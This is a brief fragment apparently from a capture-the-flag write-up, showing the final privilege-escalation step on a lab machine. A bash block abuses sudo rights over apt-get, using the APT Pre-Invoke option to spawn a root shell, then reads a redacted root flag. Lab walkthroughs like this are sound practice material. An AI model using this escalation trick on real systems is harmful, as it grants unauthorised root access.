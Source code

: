 ```bash
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# cd /root
# cat root.txt
[*** removed ***]
#
```

solved! :)
